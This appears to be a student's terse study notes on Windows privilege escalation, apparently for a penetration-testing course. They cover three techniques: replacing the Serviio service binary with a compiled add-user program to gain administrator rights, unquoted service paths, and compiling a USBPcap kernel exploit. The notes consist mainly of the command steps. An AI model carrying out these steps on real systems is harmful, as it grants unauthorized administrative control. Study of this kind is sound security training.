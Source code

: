 		service permissions:  icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
		replace service w/ our C code - p.556
		    i686-w64-mingw32-gcc adduser.c -o adduser.exe
		    move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
		    move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
		     net stop Serviio doesn't work, so...
		    check if automatic start at reboot:  wmic service where caption="Serviio" get name, caption, state, startmode
		    whoami /priv
		    reboot:  shutdown /r /t 0 
		    net localgroup Administrators    -  check we're in
	    ex. Leveraging Unquoted Service Paths
		when we have write permissions to a service's main directory and subdirectories but cannot replace files within them
		ex. with C:\Program Files\My Program\My service\service.exe
	    ex. Kernel Vulns - USBPcap
		systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
		check drivers first:  driverquery /v
		checking our version:  C:\Program Files\USBPcap> type USBPcap.inf
		compile (on diff. windows machine):
		    set up path variable for gcc:  C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat
		    gcc 41542.c -o exploit.exe
